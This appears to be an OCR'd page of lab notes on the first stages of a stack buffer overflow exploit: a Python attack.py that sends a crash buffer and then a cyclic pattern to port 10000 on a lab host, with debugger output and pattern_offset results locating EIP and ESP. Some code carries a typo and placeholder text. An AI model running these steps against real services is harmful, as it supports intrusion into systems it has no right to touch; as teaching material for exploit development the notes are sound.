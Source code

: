 
	# vim attack.py 
	--------------------
	#!/usr/bin/env python 
	
	import socket, sys
	
	sock = socket.socket(scoket.AF_INET, socket.SOCK_STREAM)
	sock.connect((sys.argv[1], 10000))
	
	buffer = "A"*500
	
	sock.send(buffer)
	sock.close() 
	--------------------
	
	#./pattern_create.rb 500 
	
	"results of pattern_create"
	
	# vim attack.py 
	--------------------
	#!/usr/bin/env python 
	
	import socket, sys
	
	sock = socket.socket(scoket.AF_INET, socket.SOCK_STREAM)
	sock.connect((sys.argv[1], 10000))
	
	buffer = "results of pattern_create"
	
	sock.send(buffer)
	sock.close() 
	--------------------
	
	#./attack.py 192.168.56.101 
	
	
	Go to Immunity Debugger and open the application. 
	On the bottom line: 
	
	!spse-hook-demo 
	
	Go to Log window and check. 
	EIP: 0x9A413969
	ESP: 0x0022FB70
	String len at ESP: 228o0Aj1Aj2Aj3Aj4Aj5A…
	
	# ./pattern_offset.rb 0x9A413969
	268
	
	#./pattern_offset.rb 0Aj1A
	272
	
